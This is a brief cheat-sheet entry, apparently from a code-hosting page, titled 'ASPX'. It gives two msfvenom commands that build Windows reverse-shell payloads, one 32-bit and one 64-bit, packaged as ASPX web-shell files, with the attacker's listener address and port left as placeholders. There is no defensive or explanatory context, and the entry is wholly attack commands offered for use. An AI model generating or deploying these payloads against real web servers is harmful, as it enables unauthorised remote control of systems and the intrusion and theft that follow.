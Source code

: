 # ASPX

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx`

2. x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x64.aspx`